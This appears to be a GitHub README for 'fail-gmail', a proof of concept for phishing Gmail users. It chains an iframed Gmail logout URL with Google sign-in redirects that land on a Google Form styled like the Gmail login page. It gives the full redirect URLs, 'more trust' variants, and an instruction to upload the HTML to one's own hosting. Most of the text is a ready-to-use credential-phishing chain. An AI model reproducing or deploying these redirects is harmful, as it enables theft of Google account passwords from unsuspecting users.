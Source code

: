 
# fail-gmail

**Fail Gmail Bug in Gmail**
Social engineering? Not really 

![enter image description here](https://preview.ibb.co/b4CrAz/153490985371618984.jpg)

1.  X-Frame-Options (allows to iframe next url) 

2.  ( forces to logout)  https://mail.google.com/mail/u/0/?ui=&ik=64411c67&jsver=UpvwBf_7018.ru.&view=om&th=15fa48c10f45e439

3. After we make death we make Redirection to auth into google account which makes redirection to google form which does not ask for permission
https://accounts.google.com/signin/v2/sl/pwd?service=wise&passive=1209600&continue=https://docs.google.com/forms/d/e/1FAIpQLSeScP-SSRCuHdJcXJ_ajX9opBbbQQVxdlDzZNf2PTlPK0Yr_Q/viewform#?gmail.com&followup=https%3A%2F%2Fdocs.google.com%2Fforms%2Fd%2F1zTt-nSYom-9sIEFeKW1QMHfdMDx6PwYzbKpkmKmmf2k%2Fedit%3Fusp%3Dsharing#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin


4. https://docs.google.com/forms/d/e/1FAIpQLSeScP-SSRCuHdJcXJ_ajX9opBbbQQVxdlDzZNf2PTlPK0Yr_Q/viewform google form which looks very simmilar to gmail login page

***Scenario attack: ->*** 
*Browser/OS: Chrome/Firefox . Windows, Linux.Feel free to rewrite it for mobile Chrome and Safari.*

**Google answer:**
![enter image description here](https://s22.postimg.cc/vo0zthp5t/2018-08-22_6.44.50.png)

**Usage**: upload html to your hosting, navigate and you will be able to understand how this works.

**Youtube video**:
https://www.youtube.com/watch?v=AmDzPgR5ZfU

**Additions**:

Alternative, redirect with more trust

https://myaccount.google.com/security-checkup?continue=https%3A%2F%2Fdocs.google.com%2Fforms%2Fd%2F1zTt-nSYom-9sIEFeKW1QMHfdMDx6PwYzbKpkmKmmf2k%2Fedit%3Fusp%3Dsharing#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin

OR make it look even more dangerous.

https://accounts.google.com/signin/v2/sl/pwd?service=wise&passive=1209600&continue=https://myaccount.google.com/security-checkup?continue=https%3A%2F%2Fdocs.google.com%2Fforms%2Fd%2F1zTt-nSYom-9sIEFeKW1QMHfdMDx6PwYzbKpkmKmmf2k%2Fedit%3Fusp%3Dsharing#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin
